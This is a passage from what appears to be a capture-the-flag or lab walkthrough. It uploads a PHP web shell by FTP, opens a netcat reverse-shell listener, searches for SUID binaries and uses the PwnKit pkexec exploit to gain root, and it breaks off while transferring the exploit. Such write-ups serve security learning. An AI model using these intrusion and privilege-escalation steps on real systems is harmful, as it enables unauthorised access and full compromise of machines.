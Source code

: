 We can upload a web shell to the FTP server and access it via a web browser.

```bash
ftp> put shell.php
```

![Reverse Shell Upload](rev_shell.png)

![FTP Upload](ftp_upload.png)

Access the web shell via:

```
http://10.201.38.83/files/shell.php
```

![Web Shell](web_shell.png)

---

### Getting a Reverse Shell

Set up a Netcat listener on your machine:

```bash
nc -lvnp 4444
```

![Netcat Listener](netcat_listener.png)

Once connected, we gain a shell as the `www-data` user.

---

### Privilege Escalation

#### SUID Binary

Using the following command, we find a file named `startup` in `/usr/local/bin/startup`:

```bash
find / -perm -4000 -type f 2>/dev/null
```

![SUID File](suid_file.png)

#### Exploiting pkexec

The target machine has `pkexec` installed.

![pkexec](pkexec.png)

Using the exploit from [PwnKit](https://github.com/ly4k/PwnKit?tab=readme-ov-file), we gain root access.

Transfer the exploit to the target machine using Netcat:
